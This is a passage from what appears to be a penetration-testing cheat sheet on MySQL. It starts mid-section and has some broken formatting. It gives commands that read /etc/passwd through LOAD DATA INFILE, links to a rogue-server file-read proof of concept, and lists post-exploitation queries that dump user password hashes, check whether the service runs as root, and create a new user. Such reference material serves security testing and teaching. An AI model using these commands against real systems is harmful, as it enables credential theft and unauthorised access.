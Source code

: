 ```
(Notice the "local" word)\
Because without the "local" you can get:

```bash
mysql> load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';

ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```
```
**Initial PoC:** [[https://github.com/allyshka/Rogue-MySql-Server|**https://github.com/allyshka/Rogue-MySql-Server**]]\
**In this paper you can see a complete description of the attack and even how to extend it to RCE:** [[https://paper.seebug.org/1113/|**https://paper.seebug.org/1113/**]]\
**Here you can find an overview of the attack:** [[http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/|**http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/**]]

​


## POST

### Mysql User

It will be very interesting if mysql is running as **root**:

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | grep "user"
systemctl status mysql 2>/dev/null | grep -o ".\{0,0\}user.\{0,50\}" | cut -d '=' -f2 | cut -d ' ' -f1
```
```
#### Dangerous Settings of mysqld.cnf

In the configuration of MySQL services, various settings are employed to define its operation and security measures:

- The **`user`** setting is utilized for designating the user under which the MySQL service will be executed.
- **`password`** is applied for establishing the password associated with the MySQL user.
- **`admin_address`** specifies the IP address that listens for TCP/IP connections on the administrative network interface.
- The **`debug`** variable is indicative of the present debugging configurations, including sensitive information within logs.
- **`sql_warnings`** manages whether information strings are generated for single-row INSERT statements when warnings emerge, containing sensitive data within logs.
- With **`secure_file_priv`**, the scope of data import and export operations is constrained to enhance security.

### Privilege escalation

```bash
# Get current user (an all users) privileges and hashes
use mysql;
select user();
select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user;

# Get users, permissions & creds
SELECT * FROM mysql.user;
mysql -u root --password=<PASSWORD> -e "SELECT * FROM mysql.user;"

# Create user and give privileges
create user test identified by 'test';
```